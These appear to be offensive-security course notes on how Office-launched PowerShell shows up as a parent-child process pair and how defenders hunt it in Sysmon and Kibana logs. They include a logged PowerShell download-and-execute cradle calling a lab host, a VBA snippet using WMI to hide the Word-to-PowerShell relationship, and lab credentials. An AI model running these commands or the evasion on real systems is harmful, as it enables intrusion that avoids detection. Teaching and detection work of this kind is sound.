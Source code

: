 Processes have a one-to-many relationship, referred to as parent and children. When one process starts another, that new process is a child of the process that started it. A process may have many children, but only one parent. These relationships can be a good indicator of malicious activity on a system - this is a point that we won't dwell on too much throughout this course as we're still learning basic tradecraft, but we'll introduce the concept here.

In the example above, Microsoft Word started PowerShell to execute our payload. This created a relationship by which **powershell.exe** is a child of **winword.exe**. This isn't normal behaviour and highly suspicious.

![[Pasted image 20220831114419.png]]

[Sysmon](https://docs.microsoft.com/en-gb/sysinternals/downloads/sysmon) and other defensive products can log process creation events, which includes the details of the parent and child. Defenders can use this information to trigger alerts when "sensitive" applications create children.

```shell
ProcessId: 2308
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"
User: DEV\bfarmer
ParentProcessId: 3684
ParentImage: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

### Finding the Needle

You can verify this behaviour using the Elastic installation in the lab.  In the main Snap Labs Dashboard, click the **Apps** link in the top menu and then click the monitor icon next to the Kibana App entry.  The credentials are **elastic**:**elastic**.

![[Pasted image 20220831114440.png]]

We can start by finding all the Process Creation events logged by Sysmon.  From the Kibana home page, expand the menu in the top-left and then select **Discover** underneath the **Analytics** header.

First, ensure that you have the **winlogbeat-*** index selected.

![[Pasted image 20220831114449.png]]

Then in the search box, enter:
```
event.module : sysmon and event.type : process_start
```

The number of events you get back will depend on how long your lab has been running.  I have about 3,000 results from the 8 hosts that are being logged.  You can start to appreciate the difficultly in finding specific malicious activity across an entire enterprise environment with hundreds or even thousands of machines.  For that reason, we need to narrow down the search with additional parameters.  Specifically, in this case, we're interested in instances where MS Office applications are the parent.  So we can add the following to the search:
```
and process.parent.executable : *EXCEL.EXE | *WINWORD.EXE | *POWERPNT.EXE
```

Essentially what we're doing here is only returning results where the parent process path ends with EXCEL.EXE OR WINWORD.EXE OR POWERPNT.EXE.  When writing these queries, there are several aspects a defender needs to think about.  Some that spring to mind are:

-   Does the query cover all eventualities of interest?
-   Are there edge cases that this will miss?
-   Is the query performant?

A simple way to break this particular relationship is to use the WMI Win32_Process class to create the process:

```vb
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

In this instance, PowerShell will be a child of **WmiPrvSE.exe** rather than MS Word.

>Execute different phishing payloads and find the corresponding logs in Kibana.

